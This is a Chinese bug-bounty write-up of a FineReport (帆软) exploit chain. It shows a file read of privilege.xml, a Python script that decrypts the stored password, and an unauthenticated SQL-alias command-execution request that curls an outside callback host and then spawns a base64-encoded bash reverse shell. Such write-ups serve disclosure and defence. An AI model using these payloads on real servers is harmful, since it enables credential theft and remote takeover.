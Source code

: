 # 记一次帆软组合拳getshell
## 前言

看到某区发现帆软的组合漏洞文章，突然想起自己最近也挖到类似的，拿出来分享一下。

## 资产发现

首先是信息收集子域名，谷歌语句直接`site:xxx.com -www`,一个登录口网站吸引了我的注意力。

![image](./img/1.png)

我点击电信、网通、自动的时候，发现域名跳转到了真实IP

![image](./img/2.png)

这样，就可以对真实IP进行端口扫描->目录扫描一把梭了，发现在8080端口发现ReportServe部署页面。

http://xxx.xxx.xxx.xxxx:8080/ReportServer

![image](./img/3.png)

接着就对帆软的历史漏洞进行测试了。

## 任意文件读取获取密码解密登录后台

`view-source:http://xxx.xxx.xxx.xxx:8080/ReportServer?op=chart&cmd=get_geo_json&resourcepath=privilege.xml`

刚开始的时候是空白页，查看源代码才发现信息

![image](./img/4.png)

可以看到用户为posun,密码需要解密一下

解密脚本：

```py
cipher = '___0022007c0039003b005100e3' #密文
PASSWORD_MASK_ARRAY = [19, 78, 10, 15, 100, 213, 43, 23] #掩码
Password = ""
cipher = cipher[3:] #截断三位后
for i in range(int(len(cipher) / 4)):
    c1 = int("0x" + cipher[i * 4:(i + 1) * 4], 16)
    c2 = c1 ^ PASSWORD_MASK_ARRAY[i % 8]
    Password = Password + chr(c2)
print (Password)
```

解密得到123456，问题是拿到哪里登录呢，突然想到刚才有个数据决策系统，拿去登录刚才的数据决策系统.

![image](./img/5.png)

成功进入后台，然而高兴的太早了,因为该站长注册码到期了，且没有什么敏感信息。SRC也是反馈危害性不大，不能收，没办法，只能另寻途径了。

## 帆软报表FineRePort未授权远程命令执行漏洞

看到去年的帆软还存在个未授权命令执行漏洞，搜了一下poc,发现在github有,
- https://github.com/ffffffff0x/1earn/blob/0583f77f62d63f93b1c519efc57327003feec4ed/1earn/Security/RedTeam/Web%E5%AE%89%E5%85%A8/BS-Exploits.md#%E5%B8%86%E8%BD%AF

- 影响版本:
    - 帆软报表 FineRePortv8.0
    - 帆软报表 FineRePortv9.0

```
xxx.com/WebReport/ReportServer?op=fr_log&cmd=fg_errinfo&fr_username=admin

这个接口 打开 点查询 burp拦截数据包 替换post的内容

__parameters__={"LABEL1":"TYPE:","TYPE":"6;CREATE ALIAS RUMCMD FOR \"com.fr.chart.phantom.system.SystemServiceUtils.exeCmd\";CALL RUMCMD('curl http://uki7s7.ceye.io');select msg, trace, sinfo, logtime from fr_errrecord where 1=1","LABEL3":"START_TIME:","START_TIME":"2020-08-11 00:00","LABEL5":"END_TIME:","END_TIME":"2020-08-11 16:41","LABEL7":"LIMIT:","LIMIT":2}
```


便操作了一下,前提是需要得知用户名

漏洞地址：`http://xxx.xxx.xxx.xxx:8080/ReportServer?op=fr_log&cmd=fg_errinfo&fr_username=posun`,这里需要把username改为刚刚的用户名。

![image](./img/6.png)

点击查询抓包改包，这里先是简单的ceye回显，改包后一直forward

![image](./img/7.png)

![image](./img/8.png)

可以看到，我的ceye收到回显，说明该漏洞是存在的，为了证明危害性，我后面继续了反弹shell操作

```
bash -c {echo,base64编码}|{base64,-d}|{bash,-i}
```

VPS监听7777端口，如图下 反弹shell成功

![image](./img/9.png)

备注:刚开始对面审核SRC愣是死活复现不出来,手把手教学了,这里有几个问题注意下,查询不能太频繁 容易并发数满,需要等一段时间,我后面第二天并发数才清空.

## 总结
- 多观察细节,比如刚刚的真实IP就冒出来了
- 遇到危害性不大漏洞不要慌,留着还能组合其它的漏洞.